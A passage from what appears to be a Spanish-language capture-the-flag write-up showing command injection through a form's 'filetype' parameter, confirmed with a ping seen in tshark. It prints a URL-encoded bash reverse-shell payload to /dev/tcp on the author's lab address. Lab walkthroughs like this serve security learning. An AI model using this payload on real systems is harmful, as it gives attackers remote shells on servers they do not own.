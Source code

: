 ```html
```

## Ejecutando comandos (Command Injection)

Cuando analizamos la petición con __Burp Suite__, encontramos los parámetros enviados en el formulario visto anteriormente. Hice modificaciones en el valor de _filetype_, comenzando con un punto y coma para revisar la reacción, lo que sucedió fue que el servidor me devolvió un error 500.

Llegado a cierto punto intenté inyectar un comando de consola, pero no recibía respuesta, así que envié una traza ICMP a mi máquina y esperé a que apareciera con _tshark_ `ping+-c+1+10.10.14.73`:

### tshark

```shell
rabb1t@hold:~$ sudo tshark --color -nni any icmp
Capturing on 'any'
 ** (tshark:10598) 00:46:00.576112 [Main MESSAGE] -- Capture started.
 ** (tshark:10598) 00:46:00.576211 [Main MESSAGE] -- File: "/tmp/wireshark_anyXF07V1.pcapng"
    1 0.000000000  10.10.14.73 → 10.10.14.73  ICMP 100 Echo (ping) request  id=0x000a, seq=1/256, ttl=64
    2 0.000022668  10.10.14.73 → 10.10.14.73  ICMP 100 Echo (ping) reply    id=0x000a, seq=1/256, ttl=64 (request in 1)
    3 30.026726631 10.10.11.182 → 10.10.14.73  ICMP 100 Echo (ping) request  id=0x0003, seq=1/256, ttl=63
    4 30.026761095  10.10.14.73 → 10.10.11.182 ICMP 100 Echo (ping) reply    id=0x0003, seq=1/256, ttl=64 (request in 3)
^C4 packets captured
```

Obtuvimos respuesta de la máquina, así que está ejecutando comandos. Procedemos a conectarnos a la máquina víctima por medio de una shell inversa, en mi caso he usado la siguiente carga útil `png;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.73/4434+0>%261`:

## Obteniendo una shell como wizard
